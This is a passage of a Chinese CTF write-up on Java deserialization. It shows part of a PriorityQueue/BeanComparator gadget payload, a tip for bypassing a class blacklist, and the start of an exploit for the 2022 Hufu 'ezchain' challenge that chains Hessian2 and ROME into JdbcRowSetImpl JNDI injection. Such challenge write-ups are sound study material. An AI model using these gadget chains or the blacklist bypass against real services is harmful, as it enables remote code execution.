 ```java
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
        priorityQueue.add("1");
        priorityQueue.add("2");
        setFieldValue(beanComparator, "property", string);
        setFieldValue(priorityQueue, "queue", new Object[]{object, null});
        return priorityQueue;
    }
}
```
得到payload，将url编码传进去就可以了
![](https://img-blog.csdnimg.cn/06aa549736c4416fbce2ac1014f7ffd6.png)

这里还有个小trick：**黑名单过滤了CC3.2的TiedMapEntry，我们可以使用CC4.0的TiedMapEntry代替**，直接打RMIConnector的二次反序列化(cc6和cc2都可以打)


### [2022虎符]ezchain(Hessian2反序列化)
拿到源码，看一下发现存在rome1.7的依赖
![](https://img-blog.csdnimg.cn/5866677fe6bb417fb02be831b9880ba7.png)

然后如果满足条件：
```java
Objects.hashCode(token) == secret.hashCode() && !secret.equals(token)
```
就会使用Hessian2Input进行反序列化，但是 Hessian 相对比原生反序列化的利用链，有几个限制：
- kick-off chain 起始方法只能为 hashCode/equals/compareTo 方法
- 利用链中调用的成员变量不能为 transient 修饰
- 所有的调用不依赖类中 readObject 的逻辑，也不依赖 getter/setter 的逻辑

#### JdbcRowSetImpl打JNDI注入
前面的相当于rome链，就直接看后面的jdbc了
当触发了`ToStringBean.toString`时，它就可以调用全部无参 getter 方法
![](https://img-blog.csdnimg.cn/ea95bc78021149cfa93beefa348ea991.png)
调用`getDatabaseMetadata`导致触发了`JdbcRowSetImpl.connect()`
![](https://img-blog.csdnimg.cn/c10f1ba7d6d84d4f8539f9ac1be842b8.png)

最后就到了`context.lookup`，可以JNDI注入
![](https://img-blog.csdnimg.cn/4b2b50f425844a2eb3adefe4da6d32a4.png)

最后的exp如下：
```java
import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.Serializable;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Hessian_rome_JNDI implements Serializable {
    public static void setFieldValue(Object obj, String name, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
```